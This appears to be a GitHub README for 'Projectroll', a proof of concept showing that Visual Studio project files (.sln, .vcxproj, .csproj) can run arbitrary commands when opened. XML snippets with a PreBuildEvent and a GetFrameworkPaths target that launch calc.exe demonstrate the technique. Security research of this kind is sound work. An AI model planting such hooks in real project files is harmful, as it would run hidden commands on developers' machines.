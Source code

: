 # Projectroll

**Projectroll** exploits vulnerabilities in Visual Studio triggers, targeting project files like `.sln` and `.vcxproj`/`.csproj`. It demonstrates how arbitrary commands can be executed without compilation, revealing security risks in the development environment.



## Features

### 1. **PreBuildEvent**
Executes arbitrary commands before project compilation.
```xml
<PreBuildEvent>
    <Command>
    cmd /c calc
    </Command>
</PreBuildEvent>
```
```xml
<Target Name="GetFrameworkPaths">
    <Exec Command="calc.exe"/>
</Target>
```

## Credits
The vulnerability has been discovered by cjm00n & edwardzpeng (https://x.com/edwardzpeng)
\nVisualStudio .suo deserialization exploit - https://github.com/moom825/visualstudio-suo-exploit
